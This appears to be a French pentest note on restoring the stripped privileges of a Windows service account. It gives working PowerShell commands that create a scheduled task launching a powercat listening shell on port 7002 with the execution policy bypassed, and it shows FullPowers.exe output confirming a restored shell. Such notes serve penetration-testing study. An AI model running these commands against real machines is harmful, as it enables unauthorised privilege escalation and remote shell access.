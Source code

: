 Dans certains cas, un exécutable peut être lancé avec un compte de service tout en excluant certains des privilèges dont il dispose, par exemple :

![Pasted image 20240223141030](../../../Files/Pasted%20image%2020240223141030.png)

Ce qui fait que nous pouvons éventuellement avoir un contrôle de ce compte, mais sans ses privilèges associés.

---
### Réactiver les privilèges avec une tâche planifiée

L'astuce consiste en la création d'une tâche planifiée avec ce compte (par exemple l'exécution d'un nouveau reverse-shell) : la tâché planifiée se lancera avec le compte de service "nature peinture" et donc avec ses privilèges habituels.

```powershell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `". C:\TOOLS\powercat.ps1; powercat -l -p 7002 -ep`""
```

```powershell
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask"
Start-ScheduledTask -TaskName "SomeTask"
```

---
### Réactiver les privilèges avec FullPowers.exe

https://github.com/itm4n/FullPowers

```powershell
c:\TOOLS>FullPowers -c "powershell -ep Bypass"
[+] Successfully created scheduled task. PID=9028
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\WINDOWS\system32> Get-ExecutionPolicy
Bypass
```

